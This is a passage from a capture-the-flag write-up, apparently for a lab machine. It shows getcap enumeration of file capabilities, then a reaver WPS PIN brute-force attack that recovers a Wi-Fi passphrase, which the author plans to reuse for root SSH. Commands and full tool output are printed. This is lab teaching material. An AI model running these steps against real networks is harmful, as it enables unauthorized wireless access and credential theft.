 7 - Now we are looking to perform a WPS PIN attack based on the info provided on the machine. A quick search on google about WPS PIn will give info about what is a WPS PIN and why it's of interest. 

With `getcap -r / 2>/dev/null`, we can learn about files capabilities starting from the `/` folder. After running this we get the output: 

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```
The `cap_net_raw` capability, allows a program to perform raw socket operations, which is often needed for network-related tasks like ping and tracerout, which is of great interest to us. 

8 - Trying all the files, only `reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1` yields something of interest:

```
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching mon0 to channel 1
[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```

Noting down the WPA PSK `WhatIsRealAnDWhAtIsNot51121!`, let's try that to SSH as root!
